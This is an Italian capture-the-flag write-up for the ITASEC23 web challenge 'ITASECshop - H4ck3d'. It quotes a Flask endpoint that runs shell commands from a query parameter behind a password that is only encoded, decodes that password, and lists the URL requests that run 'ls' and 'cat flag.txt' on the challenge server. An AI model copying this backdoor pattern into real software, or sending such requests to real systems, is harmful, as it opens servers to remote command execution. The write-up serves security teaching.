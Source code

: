 # ITASEC23 - CTF Workshop

## [web] ITASECshop - H4ck3d (5 risoluzioni)

Per risolvere la challenge, bisogna aver risolto le 2 challenge precedenti "ITASECshop - 1mln$ Flag" e "ITASECshop - Fridge Flag"

Risolte le 2 precedenti, possiamo procedere alla challenge:

La prima cosa da notare, è l'api /cats presente sul sito

```python
@app.route('/cats', methods=['GET'])
@authorize()
def cats(user:User):
    flag2 = False
    flag1 = False
    for article in user.articles:
        if flag2 and flag1: break
        if "Samsung Smart Fridge" in article.description:
            flag2 = True
        elif "1.000.000" in article.description:
            flag1 = True
    if flag1 and flag2 and request.args.get('psw') == base64.b64decode(bytes.fromhex(base64.b32decode(bytes.fromhex(cat_food.replace(" ","")).decode()).decode()).decode()).decode():
        if request.args.get('cmd') is None:
            return ""
        else:
            try:
                return subprocess.run(['./shell', request.args.get('cmd')], stdout=subprocess.PIPE, stderr=subprocess.DEVNULL, timeout=0.5).stdout.decode()
            except Exception:
                return "0_0"
    return redirect(base64.b64decode(bytes.fromhex(base64.b32decode(bytes.fromhex(compressed_cats.replace(" ","")).decode()).decode()).decode()).decode(), code=302)
```

Nella prima parte viene controllato se abbiamo comprato le prime 2 flag (e quindi risolto le challenge precedenti)
A seguito però analizziamo ciò che il codice esegue:

```python
if flag1 and flag2 and request.args.get('psw') == base64.b64decode(bytes.fromhex(base64.b32decode(bytes.fromhex(cat_food.replace(" ","")).decode()).decode()).decode()).decode():
    if request.args.get('cmd') is None:
        return ""
    else:
        try:
            return subprocess.run(['./shell', request.args.get('cmd')], stdout=subprocess.PIPE, stderr=subprocess.DEVNULL, timeout=0.5).stdout.decode()
        except Exception:
            return "0_0"
return redirect(base64.b64decode(bytes.fromhex(base64.b32decode(bytes.fromhex(compressed_cats.replace(" ","")).decode()).decode()).decode()).decode(), code=302)
```

In questo codice ci viene data la possibilità di eseguire codice da remoto, ma viene richiesta una password "segreta" da inserire per poter utilizzare effettivamente il comando:

```python
cat_food = "47 52 52 53 41 4e 4a 54 45 41 5a 54 41 49 42 58 47 51 51 44 4b 4e 4a 41 47 51 32 43 41 4e 4a 53 45 41 33 57 43 49 42 57 47 4d 51 44 47 4d 5a 41 47 59 5a 53 41 4e 5a 58 45 41 33 44 47 49 42 57 4d 51 51 44 4b 4d 4a 41 47 5a 52 43 41 4e 44 42 45 41 32 44 47 49 42 56 47 45 51 44 4d 59 52 41 47 52 51 53 41 4e 42 54 45 41 32 54 45 49 42 54 47 45 51 44 4d 4d 5a 41 47 51 33 53 41 4e 4a 57 45 41 33 54 53 49 42 56 47 55 51 44 47 4d 52 41 47 5a 52 53 41 4e 54 42 45 41 33 44 49 49 42 56 48 41 51 44 49 59 4a 41 47 59 34 43 41 4e 4a 52 45 41 32 44 4b 49 42 55 47 45 51 44 4d 59 4a 41 47 51 34 53 41 4e 5a 5a 45 41 32 47 49 49 42 57 48 41 51 44 4d 4d 52 41 47 55 33 53 41 4e 4a 57 45 41 33 44 51 49 42 57 47 51 51 44 4f 4f 4a 41 47 4d 59 43 41 4e 5a 55 45 41 32 47 47 49 42 56 47 45 51 44 47 5a 42 41 47 4e 53 41 3d 3d 3d 3d"
base64.b64decode(bytes.fromhex(base64.b32decode(bytes.fromhex(cat_food.replace(" ","")).decode()).decode()).decode()).decode()
```

In realtà la password non è cifrata/messa al sicuro in alcun modo, infatti eseguendo le operazioni inverse (O decodificando tutto con [cyberchef](https://gchq.github.io/CyberChef/))
Abbiamo che la passoword è `---P4ssw0rd$$$$$$uperSicura@@###!meaw---`, ora ci basta comporre correttamente la richiesta.

Attenzione alla codifica della password se scriviamo l'indirizzo a mano, poichè contiene caratteri come `#` che vanno [codificati](https://www.urlencoder.org/)

1. Richiesta: `/cats?psw=---P4ssw0rd%24%24%24%24%24%24uperSicura%40%40%23%23%23%21meaw---&cmd=ls`
   Da questa richiesta possiamo leggere i file che sono presenti nella cartella, e ci accorgiamo di un file flag.txt
2. Richiesta: `/cats?psw=---P4ssw0rd%24%24%24%24%24%24uperSicura%40%40%23%23%23%21meaw---&cmd=cat+flag.txt`
   Infine con questa andiamo a leggere la flag che ci verrà restituita dal server
